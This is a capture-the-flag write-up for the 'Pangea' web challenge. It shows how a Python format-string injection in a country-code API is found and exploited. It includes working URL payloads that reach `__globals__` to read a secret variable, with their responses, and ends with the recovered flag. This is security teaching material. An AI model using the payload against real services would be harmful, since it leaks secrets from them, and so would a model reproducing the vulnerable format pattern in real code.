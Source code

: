 # Pangea

500 points

Web,
5 Solves as of Solving

## Description
I wrote an API to retrieve country codes. Can you help me test if it's secure?

## Given
main.py

# Solution 
This is an injection question of Python's f-strings and format syntax.
The idea is to inject something (lower CAPS) into `f'{{{country.lower()}.code}}'.format(**countries)` such that you can read the flag variable into the local namespace
1. The outer `{{` and `}}` will be condensed into `{` and `}` respectively through the f-strings
2. The `{country.lower()}` would be  replaced by the string
3. After that you are left with `{<string>.code}`, which will then be matched to the list `countries` to get the country code

So what we can do is this
1. Inside our string , we can put in some escape characters `}` and `{` such that we pass in the string `<variable to read>} {<normal country>`
2. After f-string formatting, we would be left with `{<variable to read>} {<normal country>.code)`, which would parse perfectly as an f-string

Let's test it out! The examples below are running on a local modified copy of the server, where I added some print statements for debugging.

## Tests on localhost
Try this: `/api/v1/{flag}}{tokelau`
```
{
  "Code": "{flag}TK", 
  "Name": "{flag}}{tokelau"
}
```
With this we proven that we can add ome other text besides the country name. Maybe it's possible to read some undesired variables?

`http://localhost:5000/api/v1/tokelau%7D%7Btokelau`
```
{
  "Code": "<__main__.Country object at 0x7f198da65438>TK", 
  "Name": "tokelau}{tokelau"
}
```
With this it may be possible to inject code to read the flag variable. If we get around the formatting accessing the country objects.


After searching around, I found out there is a way to access global objects. https://python-forum.io/Thread-str-format-security-vulnerability
So lets' try doing it by injecting this`tokelau.__init__.__globals__[flag]} {tokelau`

`http://localhost:5000/api/v1/tokelau.__init__.__globals__[flag]%7D%7Btokelau`
```
{
  "Code": "You did it locally! Go and do this on the actual websiteTK", 
  "Name": "tokelau.__init__.__globals__[flag]}{tokelau"
}
```

## Running on the actual thing
`http://challenges.csdc20t.ctf.sg:10045/api/v1/tokelau.__init__.__globals__[flag]%7D%7Btokelau`
```
{"Code":"CTFSG{BR0K3_TH3_AP1_OwO}TK","Name":"tokelau.__init__.__globals__[flag]}{tokelau"}
```

# Flag
`CTFSG{BR0K3_TH3_AP1_OwO}`